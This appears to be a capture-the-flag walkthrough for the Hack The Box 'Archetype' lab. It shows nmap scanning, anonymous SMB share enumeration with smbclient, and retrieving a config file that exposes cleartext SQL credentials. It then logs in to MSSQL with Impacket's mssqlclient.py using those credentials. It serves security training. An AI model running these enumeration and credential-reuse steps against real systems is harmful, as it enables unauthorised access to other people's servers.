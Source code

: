 # 2.1 Archetype

1. Run a `nmap` scan

   ```
   nmap -sV TARGET_IP
   ```

   ![](../assets/img/htb-starting-point/14.png)

   Port **139 and 445** is opened for **SMB** on service. Port **1433** is opened for **Microsoft SQL Server 2017**

2. We would eumerate the SMB with the tool `smbclient` (-N: No password, -L List services)

   ```bash
   smbclient -N -L \\\\{TARGET_IP}\\
   ```

   ![](../assets/img/htb-starting-point/15.png)

3. The Sharename with **backups** is non-Administrative share (*without $*). Let's go enum the backups share.

   ```
   smbclient -N \\\\{TARGET_IP}\\backups
   ```
   List the directory in backups share, dowload the file `prod.dtsConfig` for further offline inspection.

   ```
   smb: \> dir
   smb: \> get prod.dtsConfig
   smb: \> exit
   ```

   ![](../assets/img/htb-starting-point/16.png)

   ![](../assets/img/htb-starting-point/17.png)

4. We can see a User ID `sql_svc` with password `M3g4c0rp123` under the host `ARCHETYPE` in cleartext

5. As we got the credentials, we just need **Impacket** tool which includes a python script called `mssqlclient.py` to **connect and authenticate to the MSSQL server**. In Kali, the Impacket is preinstalled.

    ```bash
    locate mssqlclient.py
    cd /usr/share/doc/python3-impacket/examples/
    ```

6. Run the script in the format `domain`/`username`:`password`@`targetIP or name`, we would use *windows authentication* method

    ```
    python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@{TARGET_IP} -windows-auth
    ```
